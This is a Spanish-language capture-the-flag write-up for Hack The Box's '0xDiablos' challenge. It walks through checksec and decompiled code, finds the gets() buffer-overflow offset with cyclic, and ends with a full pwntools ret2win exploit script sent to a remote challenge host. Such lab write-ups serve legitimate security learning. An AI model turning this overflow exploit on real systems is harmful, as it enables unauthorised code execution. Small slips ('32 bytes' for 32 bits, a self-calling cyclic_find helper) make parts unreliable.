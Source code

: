 # You Now 0xDiablos - HTB
> I missed my flag

## Informacion
```bash
~/Documents/htb_challenges ❯ checksec --file vuln
Arch: i386-32-little
RELRO: Partial RELRO
Stack: No canary found
NX: NX unknown - GNU_STACK missing
PIE: No PIE (0x8048000)
Stack: Executable
RWX: Has RWX segments
Stripped: No

~/Documents/htb_challenges ❯ file vuln
vuln: ELF 32-bit LSB executable, Intel i386, version 1 (SYSV)
dynamically linked
interpreter /lib/ld-linux.so.2
BuildID[sha1]=ab7f19bb67c16ae453d4959fba4e6841d930a6dd
for GNU/Linux 3.2.0
not stripped
```

## Planteamiento
El archivo es un `ELF` (ejecutable en Linux) de **32** bytes el cual posee 3 funciones principales:

```cs
pwndbg> info functions

All defined functions:
Non-debugging symbols:
0x08049000 _init
0x08049030 printf@plt
0x08049040 gets@plt
...(more)
0x080491e2 flag // 1 funcion
0x08049272 vuln // 2 funcion
0x080492b1 main // 3 funcion
...(more)

pwndbg> exit
```

Funcion main:

```cs
undefined4 main(void) {
	__gid_t __rgid;
	
	setvbuf(_stdout,(char *)0x0,2,0);
	__rgid = getegid();
	setresgid(__rgid,__rgid,__rgid);
	puts("You know who are 0xDiablos: ");
	vuln(); //Llama la 2 funcion
	return 0;
}

void vuln(void) {
	char local_bc [180]; //Buffer de 180
	
	gets(local_bc); //gets() no chequea el limite del buffer
	puts(local_bc);
	return;
}
```

La funcion main espera un `stdin`, el cual es pasado directamente a la funcion `vuln()` en cuanto se ejecute el programa. Dentro de esa funcion vemos una variable en donde se guarda el stdin con un **size** de 180 y un metodo `gets()` que lee el stdin

> La función gets() es insegura porque no limita la cantidad de caracteres que puede leer, lo que puede provocar desbordamientos de búfer si se ingresan más caracteres de los que el búfer puede manejar

Dado que hay otra funcion (`flag()`), podriamos intentar hacer un Buffer Overflow para sobreescribir el stack con a direccion de memoria de esa funcion

Funcion flag:

```cs
void flag(int param_1,int param_2) { //Espera dos parametros
	char local_50 [64];
	
	FILE *local_10;
	local_10 = fopen("flag.txt","r");
	if (local_10 != (FILE *)0x0) {
		fgets(local_50,64,local_10);
		if ((param_1 == -0x21524111) && (param_2 == -0x3f212ff3)) {
			printf(local_50);
		}
		return;
	}
	
	puts("Hurry up and try in on server side.");
		/* WARNING: Subroutine does not return */
	exit(0);
}
```

La funcion `flag()` lee el archivo `flag.txt` y lo imprime, el contenido es almacenado en la variable `local_50`, pero antes de imprimir la flag realiza una comparacion de igualdad donde: `param_1 == -0x21524111` y `param_2 == -0x3f212ff3`

Estamos lidiando con un binario de **32 bytes**, asi que toda direccion estatica o valor hexadecimal que se vea en el desensamblado debe ser convertida a 32 bytes (seran interpretadas en ejecucion como valores de 32 bytes)

> Valores hexadecimales presentes en el desensamblado seran ejecutados e interpretados como valores de 32 bytes en ejecucion

## Solucion
El primero paso sera averiguar el **buffer** correcto, ya que no es solo 180, porque si probamos con solo 180, este no produce el **Segmentation fault**, usaremos `cyclic`, para generar un payload aleatorio y para encontrar el `OFFSET`

```python
def cyclic_test():
	with open('pat', 'w') as f:
		print(f.write(cyclic(500)))
```

Una vez tengamos el archivo con el payload usaremos `gdb` o `pwndbg` para hacer un debug del binario, al ser un `stdin` la forma de pasarle ese payload al binario es con `<`

```cs
pwndbg> run < pat

You know who are 0xDiablos:
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaaj...(more)

Program received signal SIGSEGV, Segmentation fault.
0x62616177 in ?? () //OFFSET encontrado

...(more)
EBP 0x62616176 ('vaab')
ESP 0xffffcc40 ◂— 0x62616178 ('xaab')
EIP 0x62616177 ('waab')
...(more)

Invalid address 0x62616177

(gdb) run < pat

You know who are 0xDiablos:
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaaj...(more)

Program received signal SIGSEGV, Segmentation fault.

0x62616177 in ?? () //OFFSET encontrado
```

Nuevamene, con cyclic, podemos encontrar el numero exacto

```python
def cyclic_find():
	print(cyclic_find(0x62616177))
```

El offset es de **188**

El segundo paso es obtener la direccion en memoria de la funcion `flag()`
* `0x080491e2 flag`
* `ELF_PATH = context.binary = ELF('./vuln')`
* `FLAG_ADDR = ELF_PATH.sym['flag'] //Regresara 0x080491e2`

Por ultimo, debemos convertir los parametros que espera `flag()`
* `PARAM_1 = (2**32 - 0x21524111) & 0xffffffff`
* `PARAM_2 = (2**32 - 0x3f212ff3) & 0xffffffff`

## Codigo completo
```python
from pwn import *

def main():
	ELF_PATH = context.binary = ELF('./vuln')
	context.arch = 'i386'
	context.log_level = 'warn'
	
	conn = remote('94.237.57.211', 32070)
	
	OFFSET = 180 + 8
	
	FLAG_ADDR = ELF_PATH.sym['flag']
	
	PARAM_1 = (2**32 - 0x21524111) & 0xffffffff
	PARAM_2 = (2**32 - 0x3f212ff3) & 0xffffffff
	
	payload = b'A' * OFFSET
	payload += p32(FLAG_ADDR)
	payload += p32(0xffffffff)
	payload += p32(PARAM_1)
	payload += p32(PARAM_2)
	
	conn.sendline(payload)
	
	print(conn.recvall())

def cyclic_test():
	with open('pat', 'w') as f:
		print(f.write(cyclic(500)))

def cyclic_find():
	print(cyclic_find(0x62616177))

if __name__ == "__main__":
	main()

```